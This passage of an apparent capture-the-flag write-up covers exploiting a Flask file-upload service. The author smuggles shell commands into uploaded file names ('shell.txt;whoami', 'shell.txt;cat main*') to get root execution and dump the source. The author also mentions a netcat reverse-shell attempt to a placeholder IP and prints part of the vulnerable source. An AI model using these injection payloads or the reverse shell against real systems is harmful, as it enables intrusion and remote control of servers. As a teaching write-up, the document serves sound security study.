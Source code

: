 ![](images/fugit/ls.png)

When I tried to run `whoami` with the filename as `shell.txt;whoami` I got `root`.

![](images/fugit/whoami.png)

This mean that we are running commands with `root` privilege. But running other commands like for reverse shell or something isn't easy because if we do something like `file.txt; nc -e /bin/sh IP PORT` we won't get anything or maybe an error saying `what are you trying to do`.

So I decided to read the files name `main.py` by uploading a filename `shell.txt;cat main*`.

__Note__: If we upload a file named `shell.txt;cat main.py` then the actually extension for the uploaded file will be `.py` which isn't allowed.

![](images/fugit/main.png)

We can see the python code. It looks like a flask app. I reformatted the code to actually see what was happening.

```python
import os
import urllib.request
from flask import Flask, flash, request, redirect, render_template
from ftplib import FTP
import subprocess

UPLOAD_FOLDER = 'upload'
ALLOWED_EXTENSIONS = {
  'txt',
  'rtf'
}
app = Flask(__name__)
app.secret_key = "mofosecret"
app.config['MAX_CONTENT_LENGTH'] = 2 * 1024 * 1024

@app.route('/', defaults = {
  'path': ''
})
@app.route('/<path:path>')
def catch_all(path):
    cmd = 'fortune -o'
    result = subprocess.check_output(cmd, shell = True)
    return "<h1>400 - Sorry. I didn't find what you where looking for.</h1> <h2>Maybe this will cheer you up:</h2><h3>" + result.decode("utf-8") + "</h3>"

@app.errorhandler(500)
```